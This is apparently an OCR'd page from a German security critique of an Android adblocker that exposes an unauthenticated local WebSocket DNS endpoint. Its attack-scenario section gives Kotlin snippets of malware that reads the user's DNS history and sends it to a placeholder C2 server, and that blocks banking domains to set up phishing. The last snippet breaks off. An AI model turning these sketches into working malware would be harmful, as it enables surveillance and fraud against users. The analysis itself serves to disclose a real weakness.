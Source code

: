 3. **WebSocket = Normales Protokoll**
   - Play Store scannt nicht nach "suspicious localhost servers" somit bleibt dein Adblocker selbst für google unauffindbar wenn du sie in die blocklist mit aufnimmst. 
   - Sieht aus wie legitimes IPC für DNS, viele Apps rallen das nicht und unser DohClient upstream klappt perfekt und die blöde Temu Werbung weg! 

4. **DNS = Unencrypted (meist)**
   - Selbst mit DoH: Du bist der Man-in-the-Middle
   - Apps vertrauen dem System DNS



**In der Praxis:**
```kotlin
// "Monitoring Tool Integration" = 
// Offener WS Endpoint ohne Auth
webSocket("/api/v1/dns") {
    // "Custom blocklists" = 
    // Remote controlled injection
}

```

## 💀 Attack Scenarios:

### **Scenario 1: DNS Query Exfiltration**
```kotlin
// Malware connectet zu deinem WS:
val client = HttpClient(CIO) { install(WebSockets) }

client.webSocket("ws://127.0.0.1:8765/api") {
    // Request komplette Query History
    send(Frame.Text("""{"action": "get_recent_queries"}"""))
    
    val response = incoming.receive() as Frame.Text
    val queries = Json.decodeFromString<List<QueryLogEntry>>(response.readText())
    
    // Exfiltrate zu C2 Server:
    // - Welche Banken nutzt User? (bank.com queries)
    // - Social Media Profile? (facebook.com, instagram.com)
    // - Dating Apps? (tinder.com)
    // - Gesundheits-Apps? (doctolib.de)
    sendToC2Server(queries)
}
```

### **Scenario 2: Dynamic Phishing Injection** HORROR !!!
```kotlin
// Malware wartet auf Bank-Zugriff:
client.webSocket("ws://127.0.0.1:8765/api") {
    // User öffnet Banking App → DNS Query für "banking.santander.de"
    // Malware intercepted das:
    
    send(Frame.Text("""
        {
            "action": "add_domains",
            "data": "[\"banking.santander.de\"]"
        }
    """))
    
    // Jetzt ist die Bank geblockt!
    // App zeigt Error → User installiert "Fix App" (Malware)
    
    // ODER noch besser:
    // Custom DNS Response mit Phishing IP
```